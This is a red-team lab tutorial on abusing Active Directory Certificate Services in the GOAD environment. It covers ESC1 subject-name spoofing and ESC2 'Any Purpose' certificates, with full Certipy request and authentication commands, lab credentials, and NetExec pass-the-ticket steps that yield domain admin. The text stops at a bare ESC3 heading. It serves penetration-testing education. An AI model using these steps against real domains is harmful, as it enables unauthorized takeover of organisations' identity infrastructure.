# GOAD Part 5 - ADCS ESC1-ESC16

# ADCS: The Crown Jewels of Modern Escalation

We have reached a massive pivot point in our operation. By entering the realm of **Active Directory Certificate Services (ADCS)**, we are essentially moving from fighting the guards at the front gate to bribing the person who prints the security badges. In modern Red Team engagements, ADCS exploitation has arguably surpassed traditional methods like Kerberoasting in terms of both stealth and impact. While domain administrators strictly monitor the Domain Controllers, the PKI (Public Key Infrastructure) servers are frequently treated as "set and forget" utilities, deployed decades ago to support Wi-Fi authentication, encrypted websites, or VPNs. This operational neglect creates a fertile ground for privilege escalation.

Before we can exploit these vulnerabilities, we must fundamentally understand what ADCS represents in the Windows ecosystem. ADCS is Microsoft’s implementation of Public Key Infrastructure (PKI). It is responsible for issuing, validating, and revoking digital certificates. These certificates serve two primary functions: encryption (ensuring data integrity for things like LDAPS or HTTPS) and, crucially for us, **Identity Authentication**.

In a secured environment, Active Directory often mandates that a user present a "Smart Card" to log in, rather than a simple password. ADCS provides the digital backbone for this via the **Enterprise Certificate Authority (CA)**.
The architecture functions like a digital Notary Public, if the CA signs a digital document (a certificate) claiming an identity is valid, the rest of the domain trusts that assertion implicitly. This is the mechanism we target.

## How Does ADCS Work?

When a user or device requests a certificate, the request is sent to the CA, which validates the request based on the configured certificate template. If the request is approved, the CA issues the certificate, which can then be used for authentication, encryption, or other purposes. ADCS supports automatic enrollment, where certificates are issued to users and computers without manual intervention, as well as manual enrollment for more specific use cases.

To better understand how ADCS works, let us examine its core components. At the heart of ADCS lies the Certificate Authority, which issues and manages certificates based on predefined templates. These templates define the type of certificate being issued, such as those for smart cards, web servers, or email encryption. Additionally, there are enrollment agents who have the authority to request certificates on behalf of others, and certificate revocation lists (CRLs) that track invalidated certificates. Together, these elements ensure the integrity and security of the certificate lifecycle.

Now, let us shift our focus to the offensive side of things and discuss how attackers exploit ADCS to compromise an organization's security. One of the most common techniques involves abusing certificate templates to request powerful certificates without proper authorization. For instance, if a template allows for the issuance of certificates with elevated privileges, such as domain admin rights, an attacker could use this to escalate their access. 
This is often achieved by modifying template settings or exploiting misconfigurations that allow for unauthorized certificate enrollment.

A key vulnerability in ADCS arises from improperly configured certificate templates. By default, some templates may permit any authenticated user to request certificates without requiring additional approvals. Attackers can take advantage of this by enrolling themselves for certificates that grant excessive permissions, effectively bypassing traditional security controls. For example, they might request a certificate that allows them to impersonate a domain controller or sign code as a trusted entity.

Another powerful attack vector involves compromising the Certificate Authority itself. If an attacker gains control over the CA server, they can issue arbitrary certificates for any user or service in the domain. This level of access enables them to move laterally through the network, exfiltrate sensitive data, or maintain persistence undetected. In some cases, attackers may even create rogue CAs that mimic legitimate ones, further complicating detection efforts.

## The Exploitation Logic of PKINIT and The Chain of Trust

To master these attacks, we must grasp exactly how obtaining a simple file, a certificate, allows us to compromise the entire domain. Active Directory leverages a Kerberos extension known as **PKINIT** (Public Key Cryptography for Initial Authentication). This mechanism allows a security principal (User or Computer) to request a **Kerberos Ticket Granting Ticket (TGT)** by presenting a valid X.509 certificate instead of encrypting a timestamp with a password hash.

This introduces a separate, parallel authentication flow that exists alongside NTLM and standard Kerberos. The Domain Controller's Key Distribution Center (KDC) maintains an implicit trust relationship with the Enterprise CA. 
If we present a certificate that says "This user is the Administrator," and that certificate bears the cryptographic signature of the trusted CA, the KDC does not challenge us for a password. It validates the signature and immediately issues a TGT for the Administrator account.

This means that compromising ADCS is functionally equivalent to compromising the `krbtgt` password or dumping the NTDS.dit. If we can trick the CA into issuing a certificate for a fake identity, or if we can steal a valid certificate from a machine, we possess a cryptographic "Master Key" that works for the entire lifespan of that certificate, often one to five years. This persistence vector bypasses password changes, complexity requirements, and rotation policies completely.

## The ESC Families

In this unified module, we will deconstruct the entire spectrum of ADCS abuse, spanning from the foundational **ESC1** through the complex architectural nuances of **ESC16**. While the list of techniques is long, we can categorize the Escalation (ESC) vectors into four primary logical families.

**Template Misconfigurations: **Attacks that exploit the blueprints (templates) used to issue certificates. If a template is configured to allow the requester to supply their own Subject Alternative Name (SAN), we can simply ask the CA for a certificate that claims to be a Domain Admin.

**Access Control Abuses: **Attacks that target weak permissions on the PKI infrastructure objects. If we can modify the Certificate Authority server or rewrite the properties of a secure template, we can lower the defenses ourselves and then execute an attack.

**Relay Vectors: **Attacks that weaponize network traffic (NTLM) against the ADCS web or RPC interfaces. By relaying authentication to the CA, we can force it to issue valid certificates for machines or users we do not control.

**Mapping and Logic Flaws: **The newest generation of attacks that exploit how the Domain Controller maps a certificate back to a specific user account, often leveraging complex collisions or weak explicit mappings in the directory schema. Please Watch this great Video by **`Trevor Kems <krbtgt>`** on [Youtube](https://youtu.be/0q47zV6W6bM?si=IUVTqU24RoNk2KZP) before you carry on.

Before we move on, let’s have a quick stop and setup our lab, this way we can make sure that our environment is ready for all **ESCs** abuses. We should go to our **GOAD** and run the following **`.yml`**.
Once we have successfuly configure our environment, we can move on…

``` text
goad> cd <instance_id>
goad (instance)> provision ad-data.yml
goad (instance)> provision ad-relations.yml
goad (instance)> provision adcs.yml
goad (instance)> provision vulnerabilities.yml
```

## **I. The Template Injection Family (ESC1, ESC2, ESC3)**

The most direct path to compromise involves manipulating the blueprints for certificates, known as **Certificate Templates**. These templates define who can enroll, what encryption level is required, and crucially, how the identity in the certificate is defined.

**ESC1 (Subject Alternative Name Spoofing)** is the "King" of ADCS exploits. It relies on a specific flag in the template configuration called `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`. When this is enabled on a template that allows client authentication, the CA essentially allows the requestor to write their own ID card. We can authenticate as a low-level user like **jon.snow** but fill in the `San` (Subject Alternative Name) field with **Administrator**. Because the template says the enrollee is allowed to supply this info, the CA signs it, and we immediately become the Domain Admin.

**ESC2 (Any Purpose) and ESC3 (Enrollment Agent)** allow us to play a longer game. ESC2 involves templates that define an "Any Purpose" EKU (Extended Key Usage) or no EKU at all. We can use a certificate derived from this to use it for *any* action, including logging in as the target or signing new certificates. ESC3 creates a stepping-stone attack, we compromise a template that grants us the "Certificate Request Agent" usage OID. This elevates our user to an agent capable of requesting certificates *on behalf* of other users. We first get the Agent certificate, then use it to request a second certificate for the Domain Administrator, effectively completing the chain.

While it is true that ESC2 and ESC3 both rely on misconfigured Extended Key Usages (EKUs), which basically defines what a certificate is legally allowed to do in the domain, they are mechanistically distinct in how we weaponize them to achieve compromise. Think of ESC2 as a "Wildcard" and ESC3 as a "Middleman.”
**ESC2 is a direct authentication attack**, where the certificate itself allows us to log in. 
**ESC3 is a privilege escalation pivoting attack**, where the certificate allows us to manipulate the CA into issuing us a *different* certificate for a victim user. ESC2 is a master key, ESC3 is the ability to print keys.

## **ESC1: Subject Alternative Name Spoofing**

We begin our practical deep dive with **ESC1**, which stands as the most critical and direct path to domain escalation within the ADCS spectrum. This vulnerability essentially functions as a "Blank Check" for identity. If we identify an ESC1-vulnerable template in the wild, we no longer need to find credentials for a high-value user, we simply tell the Certificate Authority to print us an ID badge for that user, and the CA complies without question.

To understand why this is possible, we have to look at how Active Directory usually handles identity assignment during certificate enrollment, and how that process is broken in an ESC1 scenario.

### The Subject Alternative Name (SAN)

In a standard, secure certificate request, the Certificate Authority plays the role of a strict verifier. When a user (like **jon.snow**) requests a certificate based on a "User Template," the CA checks the requester's Kerberos token. 
It then automatically populates the "Subject" field of the resulting certificate with Jon's identity (`CN=jon.snow`). The user has no say in this process, the CA asserts the identity based on who is asking.

However, specific business use cases break this model. Consider a **Web Server** or a generic **SSL/TLS** certificate. If an administrator is setting up a web server for an intranet site, the certificate needs to be valid for `www.sevenkingdoms.local`, not for the administrator's personal username. To accommodate this, Microsoft includes a specific setting in certificate templates called **`Enrollee Supplies Subject`**.

This flag is the architectural root of ESC1. It tells the Certificate Authority: *"Do not verify the identity from the token. Trust whatever identity the requester writes in the application."*

When this flag is enabled on a template that permits standard users to enroll, the trust model collapses. As a low-level attacker, we can fill out the enrollment request and, in the field known as the **Subject Alternative Name (SAN)**, we can write **"Administrator"** or **"DA_Account"**. Because the template is configured to trust the enrollee, the CA blindly signs the certificate.

### The Three Pillars of an ESC1 Vulnerability

For a template to be usable for this attack, it must meet three specific logical criteria simultaneously. If any one of these is missing, the attack chain is broken.

### 1. Universal Enrollment Rights

The first gate is permissions. We need a template where the Access Control List (ACL) grants the **Enroll** permission to a group we belong to. In most ESC1 scenarios, we are looking for templates where "`Domain Users`", "`Authenticated Users`" or "`Everyone`" have been granted enrollment rights. If the template is restricted to "Domain Admins," it is not an escalation path for us (unless we already have admin rights, at which point it becomes a persistence mechanism).

### 2. Authentication Capability (Extended Key Usage)

Possessing a certificate is useless if we cannot use it to log in. Certificates have a property called **Extended Key Usage (EKU)** or "**Application Policies**". This defines what the digital ID is good for.
For an ESC1 attack to yield a Ticket Granting Ticket (TGT), the template must include an EKU that allows for **Client Authentication**. Common valid EKUs we look for include:

- Client Authentication (`OID 1.3.6.1.5.5.7.3.2`)
- Smart Card Logon (`OID 1.3.6.1.4.1.311.20.2.2`)
- PKINIT Client Authentication (`OID 1.3.6.1.5.2.3.4`)
- Any Purpose (`OID 2.5.29.37.0`)
If a template has the "`Enrollee Supplies Subject`" flag but is only good for "Server Authentication" (like a web server cert) or "Code Signing," we can impersonate the Administrator's name, but we cannot ask the Domain Controller for a TGT because the certificate isn't valid for logon purposes.

### 3. The Enrollee Supplies Subject Flag

This is the "Smoking Gun." Technically referenced in the directory attributes as `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`, this setting unlocks the **Subject Alternative Name** field in the request. Without this flag, even if we have permission and the EKU is valid, the CA will ignore our spoofing attempts and issue a certificate for our own low-level account.

## The Operational Flow

**Discovery:** We query the LDAP configuration to find a template that matches all three criteria.

`certipy-ad find -u 'khal.drogo@essos.local' -p 'horse' -dc-host 'meereen.essos.local' -stdout`



While the list of vulnerable templates usually grabs our immediate attention, the most infrastructurally significant piece of data returned by the **`certipy-ad find`** command is the location of the **Certificate Authority** itself. In a production Active Directory environment, the CA Role is frequently installed on a dedicated member server, distinct from the Domain Controller. Understanding this separation of duties is mandatory for our attacks; if we send our certificate request to the wrong IP, the attack will fail instantly.

When analyzing the Certipy text output (or the generated JSON file), we must scroll past the templates and locate the block labeled **`Certificate Authorities`**. This section represents the entries found in the `CN=Enrollment Services` container in LDAP. We are looking for two specific data points that define our target architecture:

1. **CA Name (CN):** In our case, **`ESSOS-CA`**. This is the logical name of the authority service.
1. **DNS Name (dNSHostName):** In our output, this is explicitly listed as **`braavos.essos.local`**.
**Why this distinction matters: **This finding changes our targeting strategy for the entire phase. It tells us that **Meereen** (the Domain Controller) handles authentication and Kerberos, but **Braavos** handles the PKI plumbing.

- When we want to **login**, we talk to **Meereen**.
- When we want to **create a certificate**, we must talk to **Braavos**.
If we simply assumed the DC was the CA, a common habit from small home labs, our exploits would hit a closed port. By correctly identifying **Braavos** as the host of the CA role now, we ensure that our future `certipy req` (Request) and `certipy relay` commands are directed at the only machine capable of signing our malicious requests.



We have successfully identified the three mandatory pillars that turn a standard configuration into a critical vulnerability. The execution of an ESC1 attack relies entirely on the alignment of these specific attributes.

First, we verified the **Permissions**, specifically the "`Enrollment Rights`" granted to **Domain Users**. This is our entry point, it confirms that the template is not restricted to administrators, allowing our low-privileged compromised account to legally request this certificate from the CA. Without this "Open Door," we would simply be denied at the request phase.

Second, we confirmed the **Extended Key Usage (EKU)** is set to **`Client Authentication` to `True`**. This defines the "function" of the certificate. It ensures that once we possess the certificate, the Domain Controller will accept it as valid proof of identity for a logon event (PKINIT). If this were set to "Server Authentication" only, we could get a certificate, but we couldn't use it to request a Ticket Granting Ticket (TGT).

Finally, and most critically, we identified the **Enrollee Supplies Subject** flag set to **True**. This is the logic flaw that breaks the security model. It instructs the Certificate Authority to trust us when we specify who the certificate belongs to, rather than verifying our identity against Active Directory. This flag allows us to take a valid request for a "Domain User" and manually rewrite the subject line to claim we are the "Administrator," turning a standard enrollment into a total domain takeover.

**Fabrication:** We craft a Certificate Signing Request (CSR) on our attack machine. In this request, we supply our valid credentials to prove we can enroll, but we modify the **SAN** field to claim we are the **Domain Administrator**.

`certipy-ad req -u 'khal.drogo@essos.local' -p 'horse' -dc-host 'meereen.essos.local' -target 'braavos.essos.local' -template 'ESC1' -ca 'ESSOS-CA' -upn 'administrator@essos.local'`



We have successfully executed the exploitation phase of the **ESC1** attack vector, effectively turning the configuration flaws we identified into a tangible cryptographic asset. By running the **`req`** (request) command with Certipy, we engaged the Certificate Authority in a deceptive transaction. We authenticated the connection using the valid credentials of **khal.drogo** to satisfy the "Enrollment Rights" Access Control List on the template. To the Certificate Authority, this initially appeared as a legitimate request from a standard user asking for a certificate they were authorized to receive.

The exploit occurred within the specific parameters of the Certificate Signing Request (CSR) we constructed. Because we confirmed earlier that the **Enrollee Supplies Subject** flag was enabled, we explicitly defined the **`-upn administrator@essos.local`**. This argument injected a Subject Alternative Name (SAN) into the request that claimed the identity of the Domain Administrator. Due to the misconfigured template logic, the Certificate Authority did not validate this claim against the active directory user account of the requestor; instead, it blindly trusted the input we provided and digitally signed a certificate attesting that the holder of this key is, in fact, the Administrator.

The resulting output, **`administrator.pfx`**, represents the complete compromise of the domain identity layer. This file contains both the public certificate signed by the CA and the private key associated with it. In the eyes of the Active Directory authentication service, holding this PFX file is functionally equivalent to knowing the cleartext password of the Administrator account. We have moved from a low-privileged position to possessing a valid, non-revoked digital identity for the highest-privileged account in the Essos domain. Our next move is simply to present this identity to the Key Distribution Center to finalize the takeover.

We have now reached the final execution step of the ESC1 kill chain, where we monetize the forged asset we just created. Holding the `administrator.pfx` file is akin to having a perfect physical forgery of a building access card,  however, it is useless until we actually swipe it at the reader. We pivot our targeting away from **Braavos** (the Certificate Authority) and aim directly at **Meereen (10.4.10.12)**, the Domain Controller and Key Distribution Center (KDC) for the Essos domain.

To execute this, we utilize the **`auth`** module of Certipy. This command initiates a **PKINIT (Public Key Cryptography for Initial Authentication)** exchange. When we transmit our spoofed certificate to the DC, the KDC parses the digital signature and verifies that it was indeed signed by the trusted ESSOS-CA. Crucially, because we injected the `administrator@essos.local` UPN into the Subject Alternative Name during the previous step, the KDC parses this identity field and trusts it explicitly. It does not check if *we* are the administrator; it only checks if the *certificate* says so and if the CA voucher is valid.

`certipy-ad auth -pfx administrator.pfx -dc-ip '10.4.10.12'`



The resulting output confirms the total compromise of the domain. Certipy not only successfully retrieves the **Ticket Granting Ticket (TGT) by **saving it as a credential cache (`.ccache`) file for immediate pass-the-ticket attacks, but it also leverages a specific feature of the PKINIT protocol to extract the **NTLM hash** of the target account. This occurs because when the KDC issues the ticket, it provides the "pac-credentials" necessary to decrypt aspects of the session, which allows tools like Certipy to derive the NTLM hash of the account we are impersonating.

We now possess the definitive "Keys to the Kingdom." We have the TGT, which grants us valid sessions for the lifespan of the ticket (usually 10 hours), and we have the NT Hash (`aad3b...`), which allows us to perform persistent Pass-the-Hash attacks indefinitely or Silver Ticket generation. We have successfully elevated a standard user with zero administrative rights to the Domain Administrator level purely by abusing the logic of a single certificate template.

Now we can simply import this TGT and connect to the Essos Domain Controller. 

`export KRB5CCNAME=administrator.ccache`

`poetry run netexec smb meereen.essos.local -k --use-kcache`



We can use NetExec to confirm if we now have access to **`Meereen`** and we can see that we do have (**Pwn3d!**) which means that we are Domain Admin.

## **ESC2: The Universal Key (Any Purpose)**

We move from the direct spoofing of ESC1 to the more architectural flaw known as **ESC2**, which revolves around improper scoping of the certificate's intended usage. While ESC1 relies on us falsifying the identity name on the card, ESC2 exploits the fact that the card itself functions as a master key. In the Public Key Infrastructure, every certificate template contains a set of usage policies defined by **Extended Key Usages (EKUs)**. 
These OIDs (Object Identifiers) act as strict limiters that tell the domain what a certificate is legally allowed to do, whether it is restricted to "`Server Authentication`", "`Code Signing`", or "`Client Authentication`”.

The ESC2 vulnerability manifests when a certificate template is configured with an **"Any Purpose" EKU** (OID 2.5.29.37.0) or, surprisingly, when it has absolutely **no EKUs defined** at all. In the Active Directory Certificate Services hierarchy, a "`Null EKU`" or "`Any Purpose`" designation effectively removes the usage guardrails entirely. The Certificate Authority creates a digital identity that claims valid authority for every possible operation within the schema, from authenticating users to signing files and encryption.

For our operational purposes as a Red Team, finding an ESC2 template is significant because of how the Domain Controller’s Key Distribution Center (KDC) interprets these "wildcard" certificates. When we attempt to authenticate via **PKINIT** (using a certificate to get a Kerberos TGT), the KDC validates the certificate's EKU list. If it sees the standard "Client Authentication" OID, it approves the request. However, the logic also permits the **"Any Purpose"** OID to satisfy this requirement. This means we can enroll in a generic, poorly configured template, perhaps one originally intended for internal auditing or generic encryption and weaponize it to authenticate against the Domain Controller as if it were a legitimate Smart Card login token.

Furthermore, ESC2 possesses a dual nature that makes it exceptionally dangerous. The "Any Purpose" flag is so permissive that it also encompasses the **"Certificate Request Agent"** OID. This capability, which we will explore deeply in ESC3. allows a holder to cryptographically sign certificate requests on behalf of other users. Therefore, obtaining an ESC2 certificate not only grants us a mechanism for direct login but essentially creates a stepping stone that can function as a Registration Authority. This allows us to potentially pivot into a deeper "Certificate on-behalf-of" attack chain if we cannot immediately use the certificate for direct domain dominance. 
We treat ESC2 as the discovery of a template that effectively forgot to say "no" to anything, handing us a digital skeleton key for the protocol layer. Let’s now enumerate ESC2 with Certipy.

`certipy-ad find -u 'khal.drogo@essos.local' -p 'horse' -dc-host 'meereen.essos.local' -stdout`





we have perfectly identified the operational flow for detecting an ESC2 vulnerability. By highlighting these three specific attributes, we have mapped the exact criteria required to weaponize this template. 
Our ordering follows a logical "Attack Path" mindset, access first, capability second.

Marker **(1)** represents the **Access Control** verification. Identifying that **ESSOS.LOCAL\Domain Users** possesses "Enrollment Rights" is the gateway check. It confirms that the vulnerability is accessible to our current low-privileged foothold (`jon.snow`), preventing us from wasting time analyzing templates that are restricted to administrators. This is always the first step because a broken template is useless if we are locked out of using it.

Markers **(2)** and **(3)** confirm the **Configuration Flaw**. The critical finding here is Marker **(3)**, identifying **Any Purpose** in the Extended Key Usage. This is the defining signature of ESC2. Because the OID is set to "Any Purpose" (or NULL), the Certificate Authority is effectively printing a master key valid for every cryptographic function in the domain. Marker **(2)**, showing **Client Authentication: True**, acts as our confirmation that the "Any Purpose" wildcard effectively covers authentication. It verifies that once we mint this certificate, the Domain Controller's KDC will accept it in exchange for a TGT, allowing immediate logon. We have successfully isolated the exact combination of accessibility and excessive permissions that makes this template dangerous.

We approach the next step of exploitation not as a single action but as a calculated chain of events that transforms a configuration weakness into a total privilege escalation. Unlike the ESC1 vector where we simply lied about our identity in a single request, the ESC2 scenario requires us to first acquire a specific administrative tool and then use that tool to bypass the domain’s security controls. This is mechanically distinct because we are leveraging the legitimate "Enrollment Agent" architecture against the Certificate Authority.

In the first phase of this attack, we target the vulnerable ESC2 template to request a certificate for our current, low-privileged user. The critical vulnerability here is the "Any Purpose" Extended Key Usage configuration on the template. When the Certificate Authority issues this certificate to us, it is effectively handing us a cryptographic skeleton key. Because "Any Purpose" acts as a wildcard for all OIDs, the resulting PFX file allows us to log in as our user, but crucially, it also functions as a valid **Certificate Request Agent** certificate. At this specific moment, we haven't spoofed anyone yet, we have simply upgraded our low-level user into a "Notary Public" who is trusted by the CA to sign requests on behalf of other users.

`certipy-ad req -u 'khal.drogo@essos.local' -p 'horse' -target 'braavos.essos.local' -template 'ESC2' -ca 'ESSOS-CA'`



Once we possess this powerful agent certificate, we initiate the second command to execute the actual heist. We pivot our targeting to a standard, otherwise secure "User" template that would normally reject any attempt to spoof the subject name. However, because we now hold the valid agent certificate from the first step, we utilize the **`On-Behalf-Of`** mechanism. We construct a new request claiming to be the Domain Administrator and cryptographically countersign it using our "Any Purpose" PFX file.

The Certificate Authority receives this package and verifies the signature. Seeing that the request is vouched for by a valid Enrollment Agent (us), it bypasses the standard identity verification checks and issues the Administrator's certificate directly to our machine. We utilize the attack in this specific order because we must first establish the authority to request certificates for others before we can successfully impersonate the target, essentially turning the CA's own trust model into the mechanism of its compromise.

We pivot to the standard **User** template in the second phase because our tactical objective has shifted from acquiring a specialized tool to acquiring a functional login credential. While we technically *could* attempt to target the ESC2 template again, utilizing the built-in **User** template is the operationally superior choice because it is a default, native object present on every Microsoft Certificate Authority that is specifically optimized for Client Authentication.

By selecting the **User** template, we are requesting a standard identity certificate which creates a much smaller forensic footprint than requesting another custom, high-privilege template. Furthermore, the architecture of the "Enrollment on Behalf Of" mechanism imposes strict policy checks; the Certificate Authority often restricts which templates an Enrollment Agent is allowed to sign for. The default **User** template is almost universally configured to accept these agent-signed requests, guaranteeing that our forged application for the Administrator will be processed successfully. We are effectively using our forged master key (ESC2) to print a standard employee badge (User) for the Administrator, because a standard badge is all that is required to authenticate to the Domain Controller and obtain a Ticket Granting Ticket.

`certipy-ad req -u 'khal.drogo@essos.local' -p 'horse' -target 'braavos.essos.local' -template 'User' -ca 'ESSOS-CA' -on-behalf-of 'essos\administrator' -pfx khal.drogo.pfx`



We have reached the culmination of the ESC2/ESC3 attack chain where we convert our cryptographic artifact into actionable administrative access.  Possessing the `administrator.pfx` file is significant, but it is effectively a dormant asset until we execute the exchange protocol. 

We’ll utilize the **auth** module of Certipy to initiate **PKINIT (Public Key Cryptography for Initial Authentication)** against the Domain Controller. This operation represents the final bridge between the Certificate Infrastructure we just abused and the Kerberos Authentication system that controls network access.

When we execute this command, we are transmitting an Authentication Service Request (AS-REQ) to the Key Distribution Center (KDC), but instead of encrypting the timestamp with a password hash, we sign the request with the private key contained within our PFX file. The KDC inspects the certificate attached to the request, verifies that it chains up to a trusted Root Certificate Authority (the ESSOS-CA we exploited), and checks the "Subject" field. Because we successfully utilized the "`On-Behalf-Of`" mechanism to imprint the **Administrator** identity onto this certificate, the KDC trusts the signature implicitly and approves the request.

`certipy-ad auth -pfx administrator.pfx -dc-ip '10.4.10.12’`



The result of this interaction is two-fold and devastating for the domain's security posture. First, the KDC issues a valid **Ticket Granting Ticket (TGT)** for the Administrator account, which Certipy saves as a credential cache (ccache) file, giving us immediate, password-less authentication to any service in the domain. Second, because of legacy compatibility mechanisms within the PAC (Privilege Attribute Certificate), the KDC frequently returns the account's **NTLM hash** in the reply. This means we essentially reverse-engineer the Domain Admin's password hash without ever touching the SAM database or LSASS process, granting us both immediate session access and long-term persistence through Pass-the-Hash attacks. This command confirms total domain compromise.

By exporting the **`KRB5CCNAME`** environment variable, we effectively load the forged identity into our current terminal session, instructing our Linux toolchain to utilize the file `administrator.ccache` as its source of truth for authentication rather than querying us for a password or hash. This is the Linux equivalent of a "Pass-the-Ticket" attack.

When we execute **NetExec** against **Meereen** with the **`-k`** (Kerberos) and **`--use-kcache`** flags, the tool presents our forged Ticket Granting Ticket directly to the target's SMB service. The result **`Pwn3d!`** is the definitive confirmation that the Domain Controller has accepted our cryptographic credentials as valid. At this moment, we are no longer just an attacker on the network, we are, for all intents and purposes, the Domain Administrator of **essos.local**, possessing full remote code execution capabilities on the Domain Controller itself.

`export KRB5CCNAME=administrator.ccache`

`poetry run netexec smb meereen.essos.local -k --use-kcache`



## **ESC3: The Enrollment Agent (The Chain Attack - Registration Authority Bypass)**

